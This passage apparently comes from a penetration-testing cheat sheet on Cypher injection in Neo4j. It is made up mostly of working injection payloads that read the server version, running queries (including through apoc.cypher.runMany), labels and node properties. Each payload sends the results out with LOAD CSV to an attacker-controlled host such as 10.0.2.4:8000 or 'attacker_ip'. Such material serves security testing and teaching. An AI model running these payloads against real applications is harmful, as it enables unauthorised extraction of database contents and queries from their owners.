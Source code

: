 ### Server Version

One way to get the server version is to use the procedure `dbms.components()`

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.0.2.4:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```
{% endcode %}

### Get running query

The easiest one is to use the procedure `dmbs.listQueries()`

{% code overflow="wrap" %}
```sql
' OR 1=1 call dbms.listQueries() yield query LOAD CSV FROM 'http://10.0.2.4:8000/?' + query as l RETURN 1 // 
```
{% endcode %}

In **Neo4j 5 `dbms.listQueries` was removed**. Instead, we can use “SHOW TRANSACTIONS”. There are two major limitations: **SHOW queries are not injectable**, and unlike `listQueries`, we can **only see the currently executed query** in the transaction and not all of them.

If **APOC** core is **installed**, we can use it to run SHOW TRANSACTIONS. If we run in the same transaction, only SHOW TRANSACTIONS will be returned instead of the query we are trying to see. We can use **`apoc.cypher.runMany`** to execute SHOW TRANSACTIONS, because unlike other apoc.cypher functions and procedures, it runs in a different transaction.

{% code overflow="wrap" %}
```sql
' OR 1=1 call apoc.cypher.runMany("SHOW TRANSACTIONS yield currentQuery RETURN currentQuery",{}) yield result LOAD CSV FROM 'http://10.0.2.4:8000/?' + result['currentQuery'] as l RETURN 1//
```
{% endcode %}

### Get labels

Using the built-in method **`db.labels`**, it is possible to list all existing labels.

{% code overflow="wrap" %}
```sql
'}) RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://attacker_ip/?l='+label as l RETURN 0 as _0 
```
{% endcode %}

### Get properties of a key

The built-in function **`keys`** can be used to **list the keys of the properties** (This won't work if one of the fields is a list or a map.).

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as a MATCH (f:Flag) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
{% endcode %}
